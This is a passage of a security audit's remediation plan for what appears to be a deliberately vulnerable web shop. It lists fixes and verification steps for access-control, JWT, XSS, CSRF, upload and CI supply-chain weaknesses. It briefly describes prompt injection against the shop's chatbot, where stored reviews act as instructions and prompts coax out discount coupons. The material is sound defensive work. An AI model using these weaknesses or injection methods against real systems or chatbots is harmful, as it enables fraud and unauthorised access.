**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-863](https://cwe.mitre.org/data/definitions/863.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/chat.ts:184`

**How:**

1. Validate discount server-side with `z.number().min(1).max(10)` and reject other values in execute.
2. Require an authenticated user and a verified, owned damaged order before `generateCoupon` returns a code.
3. Accept only user-role messages from the client and drop client-supplied system or assistant turns.

**Verification:** Call `/rest/chat` with a prompt asking for a 50% coupon, and call the tool with discount 50, and confirm no coupon is issued.

---

<a id="m-082"></a>
#### M-082 — Restrict user listing to administrators

**Addresses:**

- 🟠 [F-069](#f-069) — User list readable by any authenticated user

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/authenticatedUsers.ts:12`

**How:**

1. Add a server-side role check (admin only) before the authentication-details handler.
2. Return only the fields the admin view needs and drop `lastLoginIp` and role for other users.

**Verification:** Call GET `/rest/user/authentication-details` with a customer token and expect 403; with an admin token expect 200.

---

### P3 — Next Quarter

<a id="m-001"></a>
#### M-001 — Manual review: verify Insecure Direct Object Reference (Card) at payment.ts:41

**Addresses:**

- 🔴 [F-010](#f-010) — Insecure Direct Object Reference

**Weaknesses addressed:** [W-007](#w-007)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/payment.ts:41`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/payment.ts:41`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-002"></a>
#### M-002 — Manual review: verify Non-cryptographic RNG for a secret/token

**Addresses:**

- 🟠 [F-018](#f-018) — Non-cryptographic RNG for a secret/token

**Weaknesses addressed:** [W-044](#w-044)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:53`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:53`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-003"></a>
#### M-003 — Manual review: verify JWT decode used without signature verification

**Addresses:**

- 🟠 [F-019](#f-019) — JWT decode used without signature verification

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:56`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:56`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-004"></a>
#### M-004 — Manual review: verify Insecure JWT Verification at insecurity.ts:53

**Addresses:**

- 🟠 [F-020](#f-020) — Insecure JWT Verification

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:53`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:53`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-005"></a>
#### M-005 — Manual review: verify Arbitrary server file read through data erasure layout path

**Addresses:**

- 🟠 [F-023](#f-023) — Arbitrary server file read

**Weaknesses addressed:** [W-005](#w-005)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/dataErasure.ts:104`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/dataErasure.ts:104`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-006"></a>
#### M-006 — Manual review: verify Request body orderLinesData evaluated by notevil in vm sandbox

**Addresses:**

- 🟠 [F-025](#f-025) — Request body orderLinesData evaluated by notevil in vm

**Weaknesses addressed:** [W-001](#w-001)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/b2bOrder.ts:23`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-007"></a>
#### M-007 — Manual review: verify Basket item update lacks ownership check and field allow-list

**Addresses:**

- 🟠 [F-030](#f-030) — Basket item update lacks ownership check and field

**Weaknesses addressed:** [W-007](#w-007)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/basketItems.ts:68`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/basketItems.ts:68`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-008"></a>
#### M-008 — Manual review: verify XML external entity expansion in upload parser

**Addresses:**

- 🟠 [F-040](#f-040) — XML external entity expansion in upload parser

**Weaknesses addressed:** [W-021](#w-021)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/xml.ts:35`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/xml.ts:35`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-009"></a>
#### M-009 — Manual review: verify Password verification relies on unsalted MD5 with no strength policy

**Addresses:**

- 🟠 [F-043](#f-043) — Password verification relies on unsalted MD5

**Weaknesses addressed:** [W-044](#w-044)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/changePassword.ts:39`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/changePassword.ts:39`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-010"></a>
#### M-010 — Manual review: verify Password reset response returns full user record

**Addresses:**

- 🟠 [F-046](#f-046) — Password reset response returns full user record

**Weaknesses addressed:** [W-029](#w-029)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/resetPassword.ts:46`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/resetPassword.ts:46`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-011"></a>
#### M-011 — Manual review: verify Sensitive Routes Registered Without Authentication Middleware

**Addresses:**

- 🟠 [F-059](#f-059) — Sensitive Routes Registered Without Authentication Middleware

**Weaknesses addressed:** [W-007](#w-007)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:310`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:310`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-012"></a>
#### M-012 — Manual review: verify Mass assignment of role on user registration

**Addresses:**

- 🟠 [F-067](#f-067) — Mass assignment of role on user registration

**Weaknesses addressed:** [W-008](#w-008)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:420`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:420`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-013"></a>
#### M-013 — Manual review: verify Chatbot trusts unverified JWT payload for identity

**Addresses:**

- 🟡 [F-071](#f-071) — Chatbot trusts unverified JWT payload for identity

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/chat.ts:45`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/chat.ts:45`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-014"></a>
#### M-014 — Manual review: verify No brute-force protection on login handler at login.ts:32

**Addresses:**

- 🟡 [F-077](#f-077) — No brute-force protection on login handler

**Weaknesses addressed:** [W-011](#w-011)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/login.ts:32`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/login.ts:32`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-015"></a>
#### M-015 — Manual review: verify JWT verification does not pin an algorithm

**Addresses:**

- 🟡 [F-078](#f-078) — JWT verification does not pin an algorithm

**Weaknesses addressed:** [W-003](#w-003)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:55`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:55`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-016"></a>
#### M-016 — Manual review: verify Redirect allowlist bypass through substring match

**Addresses:**

- 🟡 [F-079](#f-079) — Redirect allowlist bypass

**Weaknesses addressed:** [W-043](#w-043)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:136`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:136`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-017"></a>
#### M-017 — Manual review: verify Cookie-authenticated profile update lacks CSRF protection

**Addresses:**

- 🟡 [F-080](#f-080) — Cookie-authenticated profile update lacks

**Weaknesses addressed:** [W-026](#w-026)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/updateUserProfile.ts:38`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/updateUserProfile.ts:38`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-018"></a>
#### M-018 — Manual review: verify Security answer creation accepts owner from request body

**Addresses:**

- 🟡 [F-085](#f-085) — Security answer creation accepts owner from request body

**Weaknesses addressed:** [W-008](#w-008)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:501`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:501`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-019"></a>
#### M-019 — Manual review: verify Model setters skip HTML sanitization on challenge branch

**Addresses:**

- 🟡 [F-087](#f-087) — Model setters skip HTML sanitization on challenge branch

**Weaknesses addressed:** [W-010](#w-010)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `models/product.ts:45`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`models/product.ts:45`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-020"></a>
#### M-020 — Manual review: verify DOM XSS via trusted HTML of JWT last login IP

**Addresses:**

- 🟡 [F-094](#f-094) — DOM XSS

**Weaknesses addressed:** [W-010](#w-010)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/last-login-ip/last-login-ip.component.ts:39`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-021"></a>
#### M-021 — Manual review: verify Stored XSS risk from trusted product descriptions

**Addresses:**

- 🟡 [F-095](#f-095) — Stored XSS risk from trusted product

**Weaknesses addressed:** [W-010](#w-010)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/search-result/search-result.component.ts:110`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/search-result/search-result.component.ts:110`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-022"></a>
#### M-022 — Manual review: verify Unvalidated event payload types throw in handlers

**Addresses:**

- 🟡 [F-116](#f-116) — Unvalidated event payload types throw

**Weaknesses addressed:** [W-005](#w-005)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:46`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/startup/registerWebsocketEvents.ts:46`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-023"></a>
#### M-023 — Sign and verify release artifacts

**Addresses:**

- 🟡 [F-088](#f-088) — Missing Container Image Signing

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-347](https://cwe.mitre.org/data/definitions/347.html) - Improper Verification of Cryptographic Signature

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/ci.yml:1`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-provenance - Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

1. Add cosign signing step to release workflow; or use actions/attest-build-provenance
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-040 scanner check; it reports no match at `.github/workflows/ci.yml:1`, and the regression test passes.

---

<a id="m-024"></a>
#### M-024 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-089](#f-089) — Untrusted npm Install/Postinstall Scripts Enabled

**Weaknesses addressed:** [W-028](#w-028)

**Prevents CWEs:**

- [CWE-506](https://cwe.mitre.org/data/definitions/506.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:4`

**How:** Use `npm ci --ignore-scripts` and audit required postinstalls separately - Without `--ignore-scripts`, any compromised dependency publisher can execute postinstall code at build time.

1. Use `npm ci --ignore-scripts` and audit required postinstalls separately
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-005 scanner check; it reports no match at `Dockerfile:4`, and the regression test passes.

---

<a id="m-025"></a>
#### M-025 — Pin the container base image to an immutable digest

**Addresses:**

- 🟡 [F-092](#f-092) — Container base images referenced by tag not digest

**Weaknesses addressed:** [W-027](#w-027)

**Prevents CWEs:**

- [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) - Use of Unmaintained Third-Party Components

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:`<digest>` - Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

1. Pin FROM lines to image@sha256 digests and keep them updated with Renovate or Dependabot.
2. Pin the typescript install to an exact version.

**Verification:** Check that every FROM line in all Dockerfiles contains a sha256 digest.

**Reference:** [CWE-829: Inclusion of Functionality from Untrusted Control Sphere](https://cwe.mitre.org/data/definitions/829.html)

---

<a id="m-026"></a>
#### M-026 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟡 [F-120](#f-120) — Container Runs as Root

**Prevents CWEs:**

- [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `test/smoke/Dockerfile:1`

**How:** Add USER `<non-root-uid>` - Containers running as root expand container-escape blast radius.

1. Add USER `<non-root-uid>`
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-002 scanner check; it reports no match at `test/smoke/Dockerfile:1`, and the regression test passes.

---

<a id="m-027"></a>
#### M-027 — GitHub Actions workflow-level permissions block

**Addresses:**

- 🟡 [F-122](#f-122) — Missing Workflow Permissions Block

**Weaknesses addressed:** [W-023](#w-023)

**Prevents CWEs:**

- [CWE-732](https://cwe.mitre.org/data/definitions/732.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/ci.yml:25`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed - Without an explicit permissions block at workflow or job level, the job inherits the repository default (commonly write-all) for `GITHUB_TOKEN` - any compromised step can push code, create releases, or approve PRs.

1. Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-010 scanner check; it reports no match at `.github/workflows/ci.yml:25`, and the regression test passes.

---

<a id="m-083"></a>
#### M-083 — Derive review author from the session

**Addresses:**

- 🟡 [F-070](#f-070) — Product review author taken from request

**Prevents CWEs:**

- [CWE-290](https://cwe.mitre.org/data/definitions/290.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/createProductReviews.ts:26`

**How:**

1. Add `isAuthorized` to the route.
2. Set author from the authenticated user, ignoring the body.

**Verification:** Submit a review with another author and confirm stored author is the caller.

---

<a id="m-084"></a>
#### M-084 — Verify JWT signature before trusting identity

**Addresses:**

- 🟡 [F-071](#f-071) — Chatbot trusts unverified JWT payload for identity

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-347](https://cwe.mitre.org/data/definitions/347.html) - Improper Verification of Cryptographic Signature

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/chat.ts:45`

**How:**

1. Use `security.verify` and `authenticatedUsers.from(req)` instead of decode.
2. Compare full user ids rather than masked emails.

**Verification:** Send an unsigned token with another user's id and confirm no order data returned.

---

<a id="m-085"></a>
#### M-085 — Derive feedback author from the token

**Addresses:**

- 🟡 [F-072](#f-072) — Client-supplied UserId accepted when posting feedback

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/verify.ts:33`

**How:**

1. Use `security.appendUserId()` to overwrite `req.body.UserId` from the authenticated session before the create, or null it when the caller is anonymous.
2. Reject requests whose UserId differs from the token user.

**Verification:** POST feedback with a foreign UserId and confirm it is rejected or that the stored UserId matches the caller.

---

<a id="m-086"></a>
#### M-086 — Fail closed and keep CAPTCHA answer server-side

**Addresses:**

- 🟡 [F-073](#f-073) — Image CAPTCHA answer leaked and check skippable

**Prevents CWEs:**

- [CWE-804](https://cwe.mitre.org/data/definitions/804.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/imageCaptcha.ts:52`

**How:**

1. Reject the request when no valid CAPTCHA record exists.
2. Do not include the answer field in the response sent to the client.

**Verification:** Post to data-export without requesting a CAPTCHA and confirm a 401 response.

**Reference:** [CWE-804](https://cwe.mitre.org/data/definitions/804.html)

---

<a id="m-087"></a>
#### M-087 — Require signed message proving wallet ownership

**Addresses:**

- 🟡 [F-074](#f-074) — Wallet ownership claimed without signature proof

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-306](https://cwe.mitre.org/data/definitions/306.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/nftMint.ts:42`

**How:**

1. Issue a server nonce and require an EIP-191 signature over it from the wallet.
2. Recover the signer with ethers `verifyMessage` and compare it to the claimed address before the membership check.
3. Require an authenticated session on `/rest/web3` routes.

**Verification:** Submit a minter address without a valid signature and confirm a 401 or failure response.

---

<a id="m-088"></a>
#### M-088 — Use authorization code flow with PKCE and state

**Addresses:**

- 🟡 [F-075](#f-075) — OAuth implicit flow without state parameter

**Weaknesses addressed:** [W-025](#w-025)

**Prevents CWEs:**

- [CWE-352](https://cwe.mitre.org/data/definitions/352.html) - Cross-Site Request Forgery (CSRF)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/login/login.component.ts:148`

**How:**

1. Switch to `response_type=code` with PKCE and exchange the code on the server.
2. Generate and verify a random state and nonce per login attempt.

**Verification:** Confirm the authorization request carries state and `code_challenge`, and that a callback with a mismatched state is rejected.

**Reference:** [datatracker.ietf.org: Rfc9700](https://datatracker.ietf.org/doc/html/rfc9700)

---

<a id="m-089"></a>
#### M-089 — Require authentication on every exposed endpoint (F-076)

**Addresses:**

- 🟡 [F-076](#f-076) — Unauthenticated WebSocket Channel

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-306](https://cwe.mitre.org/data/definitions/306.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `lib/startup/registerWebsocketEvents.ts:23`

**How:**

1. Register an `io.use` middleware that verifies a session token before accepting the connection.
2. Use `allowRequest` to validate the `Origin` header server-side and make the origin configurable per deployment.

**Verification:** Connect with a socket\.io client lacking a token and a spoofed Origin; confirm the handshake is rejected.

**Reference:** [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

<a id="m-090"></a>
#### M-090 — Add rate limiting and lockout to auth routes

**Addresses:**

- 🟡 [F-077](#f-077) — No brute-force protection on login handler

**Weaknesses addressed:** [W-011](#w-011)

**Prevents CWEs:**

- [CWE-307](https://cwe.mitre.org/data/definitions/307.html) - Improper Restriction of Excessive Authentication Attempts

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/login.ts:32`

**How:**

1. Apply `rateLimit` middleware to the login and reset-password routes.
2. Add per-account lockout or backoff on repeated failures.

**Verification:** Send repeated failed attempts and confirm 429 responses after the threshold.

**Reference:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

---

<a id="m-092"></a>
#### M-092 — Match redirect URLs exactly against the allowlist

**Addresses:**

- 🟡 [F-079](#f-079) — Redirect allowlist bypass

**Weaknesses addressed:** [W-043](#w-043)

**Prevents CWEs:**

- [CWE-601](https://cwe.mitre.org/data/definitions/601.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `lib/insecurity.ts:136`

**How:**

1. Compare the parsed URL against allowlist entries by exact equality.
2. Reject any URL not in the set.

**Verification:** Request a redirect with an allowed URL embedded in a foreign host's query and confirm rejection.

**Reference:** [CWE-601: URL Redirection to Untrusted Site (Open Redirect)](https://cwe.mitre.org/data/definitions/601.html)

---

<a id="m-093"></a>
#### M-093 — Add CSRF token and SameSite cookie flags

**Addresses:**

- 🟡 [F-080](#f-080) — Cookie-authenticated profile update lacks

**Weaknesses addressed:** [W-026](#w-026)

**Prevents CWEs:**

- [CWE-352](https://cwe.mitre.org/data/definitions/352.html) - Cross-Site Request Forgery (CSRF)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/updateUserProfile.ts:38`

**How:**

1. Require an anti-CSRF token or validate the `Origin` header on state-changing cookie routes.
2. Set `SameSite=Strict` and HttpOnly on the token cookie.

**Verification:** Submit a cross-origin form POST to `/profile` without a token and confirm it is rejected.

**Reference:** [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

---

<a id="m-094"></a>
#### M-094 — Limit size and verify type of fetched images

**Addresses:**

- 🟡 [F-081](#f-081) — Fetched profile image stored without size

**Weaknesses addressed:** [W-039](#w-039)

**Prevents CWEs:**

- [CWE-434](https://cwe.mitre.org/data/definitions/434.html) - Unrestricted Upload of File with Dangerous Type

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:30`

**How:**

1. Cap the downloaded bytes and abort the stream beyond the limit.
2. Verify content type by magic bytes and drop svg.

**Verification:** Point the URL at an oversized or non-image resource and confirm it is rejected.

---

<a id="m-095"></a>
#### M-095 — Add size limit and content check to memory upload

**Addresses:**

- 🟡 [F-082](#f-082) — Memory image upload without size limit or content check

**Weaknesses addressed:** [W-040](#w-040)

**Prevents CWEs:**

- [CWE-434](https://cwe.mitre.org/data/definitions/434.html) - Unrestricted Upload of File with Dangerous Type

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:698`

**How:**

1. Set `limits.fileSize` on `uploadToDisk`.
2. Verify magic bytes of the stored file before keeping it.

**Verification:** Upload an oversized file and a mislabeled non-image and confirm both are rejected.

---

<a id="m-096"></a>
#### M-096 — Reject unknown paymentMode values server-side

**Addresses:**

- 🟡 [F-083](#f-083) — Deluxe membership upgrade without payment

**Prevents CWEs:**

- [CWE-840](https://cwe.mitre.org/data/definitions/840.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/deluxe.ts:24`

**How:**

1. Validate `paymentMode` against an allowlist and return an error for any other value.
2. Perform the wallet debit atomically with the balance check.

**Verification:** Submit `paymentMode` with an unsupported value and confirm the role is not upgraded.

**Reference:** [CWE-840](https://cwe.mitre.org/data/definitions/840.html)

---

<a id="m-097"></a>
#### M-097 — Bind owner field to the authenticated caller

**Addresses:**

- 🟡 [F-084](#f-084) — Owner UserId taken from request body on create routes

**Weaknesses addressed:** [W-008](#w-008)

**Prevents CWEs:**

- [CWE-915](https://cwe.mitre.org/data/definitions/915.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:444`

**How:**

1. Add `security.appendUserId()` to these routes so the server overwrites `req.body.UserId`.
2. Use a field allow-list for the generated resources.

**Verification:** POST with a foreign UserId in the body and confirm the stored UserId is the caller's.

---

<a id="m-098"></a>
#### M-098 — Bind security answer owner to the authenticated user

**Addresses:**

- 🟡 [F-085](#f-085) — Security answer creation accepts owner from request body

**Weaknesses addressed:** [W-008](#w-008)

**Prevents CWEs:**

- [CWE-915](https://cwe.mitre.org/data/definitions/915.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:501`

**How:**

1. Require `isAuthorized` and set UserId from the token with `appendUserId`.
2. Reject body-supplied UserId.

**Verification:** POST with another user's UserId is ignored or rejected.

---

<a id="m-099"></a>
#### M-099 — Isolate untrusted review text from instructions

**Addresses:**

- 🟡 [F-086](#f-086) — Stored reviews and username reach chatbot context as instructions

**Weaknesses addressed:** [W-019](#w-019)

**Prevents CWEs:**

- [CWE-1427](https://cwe.mitre.org/data/definitions/1427.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/chat.ts:149`

**How:**

1. Delimit and label tool results as data; strip control text from names.
2. Gate consequential tools on server-side checks.

**Verification:** Store an instruction review and confirm no coupon is generated.

---

<a id="m-100"></a>
#### M-100 — Always sanitize input in model setters

**Addresses:**

- 🟡 [F-087](#f-087) — Model setters skip HTML sanitization on challenge branch

**Weaknesses addressed:** [W-010](#w-010)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `models/product.ts:45`

**How:**

1. Remove the challenge-enabled branch that bypasses sanitization, or confine it to dedicated training builds.
2. Apply `sanitizeSecure` and output encoding at the rendering sink.

**Verification:** Submit markup via the write path in a default config and confirm it is neutralized on storage and render.

---

<a id="m-101"></a>
#### M-101 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟡 [F-090](#f-090) — Mutable third-party GitHub Action references

**Weaknesses addressed:** [W-045](#w-045)

**Prevents CWEs:**

- [CWE-829](https://cwe.mitre.org/data/definitions/829.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/image_actions.yml:33`

**How:**

1. Replace @main, @v2 and @v3 references with full commit SHAs and a version comment.
2. Enable Dependabot or Renovate for github-actions to update the pins.

**Verification:** Grep the workflows for uses: lines lacking a 40-hex SHA and confirm none remain.

**Reference:** [CWE-829: Inclusion of Functionality from Untrusted Control Sphere](https://cwe.mitre.org/data/definitions/829.html)

---

<a id="m-102"></a>
#### M-102 — Commit lockfiles and install from them

**Addresses:**

- 🟡 [F-091](#f-091) — Release packaging installs dependencies without lockfile

**Weaknesses addressed:** [W-045](#w-045)

**Prevents CWEs:**

- [CWE-829](https://cwe.mitre.org/data/definitions/829.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/release.yml:55`

**How:**

1. Commit `package-lock.json` files and use npm ci in release and test jobs.
2. Pin global CLI tool versions exactly and set a minimum release age policy.

**Verification:** Confirm release workflow logs show npm ci and that install fails when the lockfile is out of sync.

**Reference:** [CWE-829: Inclusion of Functionality from Untrusted Control Sphere](https://cwe.mitre.org/data/definitions/829.html)

---

<a id="m-103"></a>
#### M-103 — Render user emails as text in admin view

**Addresses:**

- 🟡 [F-093](#f-093) — User emails rendered as trusted HTML in admin

**Weaknesses addressed:** [W-010](#w-010)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `frontend/src/app/administration/administration.component.ts:73`

**How:**

1. Use interpolation and a CSS class binding instead of an HTML string.
2. Remove `bypassSecurityTrustHtml` for emails.

**Verification:** Register an email containing markup and confirm the admin table shows it as text.

---

<a id="m-104"></a>
#### M-104 — Render last login IP as escaped text

**Addresses:**

- 🟡 [F-094](#f-094) — DOM XSS

**Weaknesses addressed:** [W-010](#w-010)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**How:**

1. Remove the trusted-HTML wrapper (`bypassSecurityTrustHtml`) and assign the plain string to a property.
2. Bind it with text interpolation ({{ `lastLoginIp` }}) instead of [`innerHTML`].
3. Validate the IP format on the server before storing it.

**Verification:** Store a value containing a script tag as the login IP and confirm the page shows it as literal text with no script execution.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-105"></a>
#### M-105 — Stop trusting server-supplied product descriptions

**Addresses:**

- 🟡 [F-095](#f-095) — Stored XSS risk from trusted product

**Weaknesses addressed:** [W-010](#w-010)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `frontend/src/app/search-result/search-result.component.ts:110`

**How:**

1. Remove the `bypassSecurityTrustHtml` call on description and let Angular sanitize or render as text.
2. Validate and sanitize descriptions on the server when they are written.

